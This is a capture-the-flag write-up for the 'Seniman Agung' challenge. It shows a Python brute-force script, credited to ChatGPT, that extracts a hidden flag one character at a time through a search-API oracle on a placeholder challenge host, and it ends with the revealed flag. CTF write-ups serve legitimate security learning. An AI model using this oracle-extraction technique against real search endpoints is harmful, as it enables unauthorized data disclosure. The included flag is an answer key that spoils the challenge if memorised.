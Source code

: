 # Seniman Agung

> Category: Miscellaneous🧩

![img](desc.png)

## 🔍 Overview

![img](page.png)

When going to the page, we can try to search for the flag:

![img](3108.png)

But, this will return us with 1 correct hidden flag and 2 fake flags.

So, the plan here is to brute-force the correct flag:

![img](correct.png)


## ✨ Solution

To solve this question, we need to create a script to ease up the process. I also found that the challenge is a bit same as the [L3AKCTF 2025 Flag L3ak challenge](https://xtromera.github.io/2025/07/14/l3ak.html). So, just copy the script and refine it a bit.

**Solve script (by ChatGPT):**
```py
import string, requests, time

URL = "http://<CHALL-IP>:<CHALL-PORT>/api/search"
FLAG_PREFIX = "3108{B"                     # start from what you already know
CHARSET = string.ascii_letters + string.digits + "_-{}"
SLEEP = 0.12                               # gentle pacing

def hit(q: str) -> bool:
    r = requests.post(URL, json={"query": q}, timeout=8)
    # Try JSON first (if the API returns JSON)
    try:
        data = r.json()
        results = data.get("results", data.get("posts", [])) or []
        for post in results:
            title = (post.get("title") or "").lower()
            content = (post.get("content") or "").lower()
            if ("ada rahsia di sini" in content) or ("flag" in content) or ("petunjuk" in title):
                return True
    except Exception:
        pass
    # Fallback to text marker you observed
    return "Well luckily the content of the flag is hidden so here it is:" in r.text

def window4(known: str, c: str) -> str:
    # Use the last 3 known chars + candidate to form a 4-char query
    core = (known[-3:] if len(known) >= 3 else known)
    w = core + c
    return w[-4:] if len(w) > 4 else w.rjust(4, FLAG_PREFIX[0]) if len(w) < 4 else w

def main():
    known = FLAG_PREFIX
    print(f"[start] prefix = {known}")

    while not known.endswith("}"):
        progressed = False
        for c in CHARSET:
            q = window4(known, c)
            if len(q) == 4 and hit(q):
                pos = len(known) + 1
                known += c
                print(f"[pos {pos}] → {c}   (query: {q})")
                progressed = True
                break
            time.sleep(SLEEP)

        if not progressed:
            print("[stop] no match this round.")
            break

    print(f"\n[flag] {known}")

if __name__ == "__main__":
    main()
```

<details><summary><b>🏳️ Flag:</b></summary><b>3108{Buj4ngL4p0k_M3rd3k4}</b></details>